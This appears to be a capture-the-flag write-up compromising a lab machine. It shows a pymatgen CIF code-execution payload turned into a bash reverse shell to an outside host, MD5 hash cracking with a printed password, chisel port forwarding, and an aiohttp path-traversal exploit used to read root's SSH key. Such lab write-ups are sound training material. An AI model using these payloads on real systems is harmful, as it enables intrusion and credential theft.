 Scanning the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.38
```

![image](images/20250304192606.png)

Let's go to `http://10.10.11.38:5000/` and see what's there

![image](images/20250304213214.png)

We see that this site works with CIF files. This means that the vulnerability will most likely be in the processing of these CIF files. Let's try to find [PoC](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

![image](images/20250304213422.png)


![image](images/20250304213451.png)

So, to implement it, you need to create an arbitrary file with the `.cif` extension and insert the following into it
```CIF
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'

_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
```
At the moment `load_module ("os").system ("touch pwned")` the system command `touch pwned` is executed. We don't need it. It's better to build in `reverse shell`:
```CIF
data_5yOhtAoR
_audit_creation_date 2018-06-08
_audit_creation_method "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.188/4444 0>&1'");0,0,0'

_space_group_magn.number_BNS 62.448
_space_group_magn.name_BNS "P n' m a' "
```
Save this file and upload it to the site. Run `nc` to listen to `4444` port and click the `View` button on the site opposite the uploaded file.

![image](images/20250304214036.png)


![image](images/20250304214017.png)

Let's look in `/etc/passwd` to see what users are in the system

![image](images/20250304214716.png)

There are 3 users: `app`, `rosa`, `root`. Let's look at the home directory of `rosa`

![image](images/20250304214914.png)

The first flag was found, but we can't read it. Let's look at the home directory of `app`

![image](images/20250304214146.png)

Let's look at the code of `app.py`. Of interest here is the password for the database and a link to connect to it
```Python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}
```

![image](images/20250304214235.png)

Now we know that there is a file `database.db`, but it is not here. Let's look at the scan results again. There is an open port `8000`. If you open `http://10.10.11.38:8000`, a page will open with the file `database.db`, which can be downloaded (this page opened at the very beginning, but when it was necessary to take a screenshot, it no longer opened). Let's open this file
```bash
sqlite3 database.db
```
Let's look at the contents of the table `user`

![image](images/20250304220149.png)

We are interested in the users `admin`, `app` and `rosa`. Copy each hash to separate files
```bash
echo '2861debaf8d99436a10ed6f75a252abf' > admin
```
```bash
echo '197865e46b878d9e74a0346b6d59886a' > app
```
```bash
echo '63ed86ee9f624c7b14f1d4f43dc251a5' > rosa
```

![image](images/20250304220442.png)

Now it remains to determine the type of hashes and break them. To determine this, we will use `hash-identifier`

![image](images/20250304220621.png)

This is `MD5`. Let's break them with `hashcat`
```bash
hashcat -m 0 rosa /usr/share/wordlists/rockyou.txt
```

![image](images/20250304220829.png)

We only managed to break the hash `rosa`
```Password
unicorniosrosados
```
Let's connect via `SSH`
The first flag is there

![image](images/20250304221022.png)

Let's see if there are any running services in the local network
```bash
netstat -lntp
```

![image](images/20250304223648.png)

There is a running service on port `8080`. We have `chisel`, which can forward this port to `Kali`

![image](images/20250304223934.png)

To forward the port to `Kali`, you first need to download `chisel` to `Kali`, run it there, then on `rosa`
On `Kali`
```bash
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gzip -d chisel_1.9.1_linux_amd64.gz
chmod +x chisel_1.9.1_linux_amd64
mv chisel_1.9.1_linux_amd64 chisel
./chisel server -p 1234 --reverse
```

![image](images/20250304224320.png)

On `rosa`
```bash
./chisel client 10.10.14.188:1234 R:8080:localhost:8080
```

![image](images/20250304224337.png)

Now let's open `http://localhost:8080` on `Kali`

![image](images/20250304224405.png)

Let's look at the request header
```bash
curl -I http://localhost:8080
```

![image](images/20250304224836.png)

Server `aiohttp/3.9.1`. Most likely there is [CVE](https://github.com/wizarddos/CVE-2024-23334)

![image](images/20250304230442.png)

This is `Path Traversal`, so you need to find the endpoint in the source code of the page being attacked.

![image](images/20250304230809.png)

We'll start from `/assets`
First, let's try to read `/etc/passwd`
```bash
python exploit.py -u http://localhost:8080 -f /etc/passwd -d /assets
```

![image](images/20250304230900.png)

It works! Now let's steal `id_rsa` from user `root`
```bash
python exploit.py -u http://localhost:8080 -f /root/.ssh/id_rsa -d /assets
```

![image](images/20250304230950.png)

Copy it and create a key in `Kali`, give it permissions and connect via `SSH` to `root`
```bash
nano sshkey
chmod 700 sshkey
ssh root@10.10.11.38 -i sshkey
```

![image](images/20250304231145.png)


